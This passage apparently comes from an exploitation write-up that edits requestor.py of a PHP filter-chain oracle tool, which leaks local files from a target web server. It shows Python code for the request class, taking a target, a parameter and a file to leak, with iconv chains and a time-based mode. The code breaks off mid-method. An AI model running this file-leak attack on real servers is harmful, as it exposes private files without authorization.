 And also added the `import` for `base64`.

```c
import json
import requests
import time
from filters_chain_oracle.core.verb import Verb
from filters_chain_oracle.core.utils import merge_dicts
import re
import base64
<--- CUT FOR BREVITY --->
```

To end up with the final modified version of `requestor.py`.

```c
import json
import requests
import time
from filters_chain_oracle.core.verb import Verb
from filters_chain_oracle.core.utils import merge_dicts
import re
import base64

"""
Class Requestor, defines all the request logic.
"""
class Requestor:
    def __init__(self, file_to_leak, target, parameter, data="{}", headers="{}", verb=Verb.POST, in_chain="", proxy=None, time_based_attack=False, delay=0.0, json_input=False, match=False):
        self.file_to_leak = file_to_leak
        self.target = target
        self.parameter = parameter
        self.headers = headers
        self.verb = verb
        self.json_input = json_input
        self.match = match
        print("[*] The following URL is targeted : {}".format(self.target))
        print("[*] The following local file is leaked : {}".format(self.file_to_leak))
        print("[*] Running {} requests".format(self.verb.name))
        if data != "{}":
            print("[*] Additionnal data used : {}".format(data))
        if headers != "{}":
            print("[*] Additionnal headers used : {}".format(headers))
        if in_chain != "":
            print("[*] The following chain will be in each request : {}".format(in_chain))
            in_chain = "|convert.iconv.{}".format(in_chain)
        if match:
            print("[*] The following pattern will be matched for the oracle : {}".format(match))
        self.in_chain = in_chain
        self.data = json.loads(data)
        self.headers = json.loads(headers)
        self.delay = float(delay)
        if proxy :
            self.proxies = {
                'http': f'{proxy}',
                'https': f'{proxy}',
            }
        else:
            self.proxies = None
        self.instantiate_session()
        if time_based_attack:
            self.time_based_attack = self.error_handling_duration()
            print("[+] Error handling duration : {}".format(self.time_based_attack))
        else:
```